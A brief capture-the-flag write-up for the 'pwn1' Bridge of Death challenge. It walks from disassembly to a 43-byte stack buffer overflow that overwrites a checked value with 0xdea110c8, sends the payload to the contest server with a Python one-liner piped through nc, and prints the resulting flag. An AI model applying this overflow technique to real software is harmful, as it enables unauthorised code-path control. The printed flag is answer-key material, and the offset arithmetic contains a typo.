 	00000865         lea        eax, dword [ebp-0x3b]
	00000868         push       eax
	00000869         call       sub_510 

But the last one checks for `ebp-0x10`.

	000008b2         cmp        dword [ebp-0x10], 0xdea110c8

Hence, there is a `0x3 - 0x10 = 43 decimal` offset.

Let's verify

	# python -c "\
		from pwn import *;
		print 'Sir Lancelot of Camelot';
		print 'To seek the Holy Grail.'; 
		print 'A' * 43 + p32(0xdea110c8);
	" | ./pwn1 

	Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
	What... is your name?
	What... is your quest?
	What... is my secret?
	Right. Off you go.
	Segmentation fault

Yes, it works. Do on server!

	# python -c "\
	from pwn import *;
	print 'Sir Lancelot of Camelot';
	print 'To seek the Holy Grail.'; 
	print 'A' * 43 + p32(0xdea110c8);
	" | nc pwn.tamuctf.com 4321

	Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
	What... is your name?
	What... is your quest?
	What... is my secret?
	Right. Off you go.
	gigem{34sy_CC428ECD75A0D392}

## Flag

	gigem{34sy_CC428ECD75A0D392}